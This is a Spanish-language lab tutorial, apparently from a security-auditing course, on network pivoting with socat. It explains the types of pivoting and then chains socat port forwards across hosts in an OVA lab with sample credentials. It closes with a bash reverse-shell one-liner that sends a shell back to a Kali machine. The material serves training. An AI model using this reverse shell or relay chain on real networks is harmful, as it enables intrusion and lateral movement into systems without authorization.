


# Pivoting con Socat

  

## ¿Qué es el Pivoting?

  

El **pivoting** es una técnica que permite a un atacante que ha comprometido un sistema dentro de una red usar ese sistema como plataforma para comprometer otros sistemas a los que normalmente no tendría acceso directo. Esencialmente, el sistema comprometido actúa como base de operaciones para lanzar ataques adicionales hacia segmentos de red más internos.

  

Esta técnica es especialmente relevante en redes segmentadas, donde los sistemas críticos (bases de datos, servidores de producción, controladores de dominio) no son accesibles directamente desde el exterior, pero sí desde otros sistemas de la red interna. Un atacante que logra comprometer un sistema perimetral puede usar el pivoting para alcanzar esos sistemas internos.

  

### Tipos de Pivoting

  

**Pivoting Directo:** el atacante usa el primer sistema comprometido para acceder directamente a otros sistemas de la misma red interna.

  
    

Ejemplo: Se compromete un servidor web y desde él se accede directamente a un servidor de base de datos en la misma red interna.

  

  

**Pivoting a través de saltos:** el atacante se mueve a través de múltiples máquinas comprometidas. Cada máquina actúa como nuevo punto de pivoting.

  
    

Ejemplo: Se compromete un servidor web → desde él se compromete un servidor de aplicaciones → desde éste se accede al servidor de bases de datos.

  

  

**Pivoting en cadena:** varios sistemas comprometidos se encadenan para atravesar capas de segmentación de red.

  
    

Ejemplo: Se compromete el equipo de un empleado (A) → se usa A para comprometer un servidor interno (B) → se usa B para acceder a un servidor de producción (C) en una red separada.

  

  

### Herramientas y técnicas habituales

  
    
* **SSH Túneles:** conexiones seguras para redirigir tráfico.
    
* **Proxychains:** enrutamiento de tráfico a través de una cadena de proxies.
    
* **Port Forwarding:** redireccionamiento de puertos para acceder a servicios internos.
    
* **VPN y SOCKS:** uso de servidores SOCKS para ocultar el origen del tráfico.
    
* **Socat, Chisel, Ligolo:** herramientas especializadas en redirección de tráfico y tunelización.
  

  

Descarga los recursos para las prácticas: [⬇️ Descargar pivoting.7z](../../../archivos_descargados/paquetes_7z/pivoting.7z)

  

## Socat

  

**Socat** (SOcket CAT) es una utilidad multipropósito que permite crear conexiones bidireccionales entre dos puntos de red. Puede utilizarse para redirigir tráfico, crear proxies, modificar datos en tránsito y mucho más. Su versatilidad la convierte en una de las herramientas más útiles para pivoting.

  

Descarga del binario estático para Linux x86_64:

  

```bash
https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
```

  

Ejemplo básico de redirección de tráfico:

  

```bash
$ socat TCP-LISTEN:8080,fork TCP:192.168.1.41:8080
```

  

Este comando escucha en el puerto 8080 local y redirige todo el tráfico que recibe hacia la IP `192.168.1.41` al puerto 8080. La opción `fork` permite manejar múltiples conexiones simultáneas. `reuseaddr` permite reutilizar el puerto inmediatamente si la conexión anterior se cierra.

  
    

La clave del pivoting con socat es esta capacidad de redirección encadenada: cada máquina intermedia reenvía el tráfico a la siguiente, creando un túnel transparente desde el origen hasta el destino final.

  

  

## Caso práctico: laboratorio

  

Importamos la OVA **pivoting.ova** y configuramos la red como "Hacking". Las credenciales iniciales son `tecnico / SegInf`. Una vez dentro, levantamos el laboratorio:

  

```bash
$ sudo /etc/init.d/init_vm start
```

  


  

### Escenario

  

El objetivo es obtener una **conexión inversa (reverse shell)** desde la máquina `20.20.20.3` hasta nuestra Kali Linux. El problema es que las máquinas intermedias están en distintas subredes y no existe conectividad directa entre `20.20.20.3` y Kali.

  

La cadena de redes es la siguiente:

  
    
* **Kali Linux** ↔ `10.0.0.x` ↔ **Debian** (tecnico:SegInf)
    
* **Debian** ↔ `10.10.10.x` ↔ **Víctima 1** (manchi:lovely)
    
* **Víctima 1** ↔ `20.20.20.x` ↔ **Víctima 2** (mario:chocolate)
  

  

Para que la reverse shell de `20.20.20.3` llegue a Kali, necesitamos encadenar redirecciones socat en cada salto intermedio.

  

## Realizando la conexión inversa

  

### Preparación: Kali en escucha

  

En un terminal de Kali Linux ponemos netcat en espera en el puerto 443:

  



  

### Establecer las conexiones SSH en cadena

  

Abrimos tres terminales y establecemos las conexiones SSH encadenadas:

  

**Terminal 1:** conexión entre Kali y Debian.

  

```bash
Kali Linux $ ssh tecnico@10.0.0.24
```

  

**Terminal 2:** misma conexión anterior, luego saltamos a la Víctima 1.

  

```bash
Kali Linux $ ssh tecnico@10.0.0.24
Debian     $ ssh manchi@10.10.10.2
```

  

**Terminal 3:** mismas que anteriores, luego saltamos a la Víctima 2.

  

```bash
Kali Linux $ ssh tecnico@10.0.0.24
Debian     $ ssh manchi@10.10.10.2
Víctima 1  $ ssh mario@20.20.20.3
```

  

### Paso 1: Redirigir tráfico en Víctima 1 (Terminal 2)

  

En el terminal 2 (conexión con Víctima 1), descargamos socat y configuramos la redirección:

  

```bash
# Descargar socat
$ wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
$ chmod +x socat

# Redirigir: todo lo que llegue por el puerto 443 → Debian (10.10.10.1:443)
$ ./socat TCP-LISTEN:443,fork,reuseaddr TCP:10.10.10.1:443
```

  

### Paso 2: Redirigir tráfico en Debian (Terminal 1)

  

En el terminal 1 (conexión con Debian), descargamos socat y configuramos la redirección:

  

```bash
# Descargar socat
$ wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
$ chmod +x socat

# Redirigir: todo lo que llegue por el puerto 443 → Kali (10.0.0.15:443)
$ sudo ./socat TCP-LISTEN:443,fork,reuseaddr TCP:10.0.0.15:443
```

  

### Paso 3: Lanzar la reverse shell desde Víctima 2 (Terminal 3)

  

Regresamos al terminal 3 (conexión con Víctima 2) y lanzamos la reverse shell apuntando a la IP de Víctima 1 en la red compartida:

  

```bash
$ bash -i >& /dev/tcp/20.20.20.2/443 0>&1
```

  
    

El tráfico viaja así: Víctima 2 (`20.20.20.3`) → Víctima 1 (`20.20.20.2:443`) → Debian (`10.10.10.1:443`) → Kali Linux (`10.0.0.15:443`). Cada salto es transparente gracias a las redirecciones socat.

  

  

Si todo ha ido bien, Kali Linux recibirá la conexión inversa desde `20.20.20.3`:

  



  

## 📚 Navegación

  

    [→ Siguiente: Túnel SSH]([[02 - MODULOS/Prácticas (PoCs)/Herramientas de Auditoría/10b - Pivoting - Práctica 2 - Túnel SSH Dinámico y Proxychains|10b - Pivoting 2 - Túnel SSH]])
    [↑ Volver al Índice]([[02 - MODULOS/Prácticas (PoCs)/Herramientas de Auditoría/01 - Escaneo y Enumeración de Redes con Nmap|Índice de Herramientas de Auditoría]])
